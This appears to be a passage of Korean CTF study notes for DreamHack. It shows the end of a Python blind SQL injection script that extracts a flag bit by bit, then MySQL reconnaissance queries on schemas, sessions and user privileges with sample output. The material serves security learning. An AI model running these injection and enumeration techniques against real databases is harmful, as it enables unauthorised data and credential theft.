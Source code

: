 ```py
            data = requests.get(FULL_URL + "?uid=" + query)

            if SUCESS in data.text:
                tmp += str(1)
            else:
                tmp += str(0)
        flag += int.to_bytes(int(tmp, 2), (bit_length + 7) // 8, "big").decode("utf8")
        print(f"FLAG: {flag}")
```

- MYSQL 정보 탈취
```sql
mysql> select TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS;
/*
+--------------------+----------------+--------------------+
| TABLE_SCHEMA       | TABLE_NAME     | COLUMN_NAME        |
+--------------------+----------------+--------------------+
| information_schema | CHARACTER_SETS | CHARACTER_SET_NAME |
...
| DREAMHACK          | users          | uid                |
| DREAMHACK          | users          | upw                |
...
| mysql              | db             | Db                 |
| mysql              | db             | User               |
...
+--------------------+----------------+--------------------+
3132 rows in set (0.07 sec)
*/
```
```sql
mysql> select * from information_schema.PROCESSLIST;
/*
+-------------------------------------------------+
| info                                            |
+-------------------------------------------------+
| select info from information_schema.PROCESSLIST |
+-------------------------------------------------+
1 row in set (0.00 sec)
*/
```
```sql
mysql> select user,current_statement from sys.session;
/*
+----------------+------------------------------------------------+
| user           | current_statement                              |
+----------------+------------------------------------------------+
| root@localhost | select user,current_statement from sys.session |
+----------------+------------------------------------------------+
1 row in set (0.05 sec)
*/
```
```sql
mysql> select GRANTEE,PRIVILEGE_TYPE,IS_GRANTABLE from information_schema.USER_PRIVILEGES;
/*
PRIVILEGE_TYPE: 특정 사용자가 가진 권한의 종류를 나타냅니다.
IS_GRANTABLE: 특정 사용자가 자신의 권한을 다른 유저에게 줄 수 있는지 YES 또는 NO로 표시됩니다.
+-------------------------+-------------------------+--------------+
| GRANTEE                 | PRIVILEGE_TYPE          | IS_GRANTABLE |
+-------------------------+-------------------------+--------------+
| 'root'@'localhost'      | SELECT                  | YES          |
...
| 'root'@'localhost'      | SUPER                   | YES          |
...
| 'user_test'@'localhost' | USAGE                   | NO           |
+-------------------------+-------------------------+--------------+
```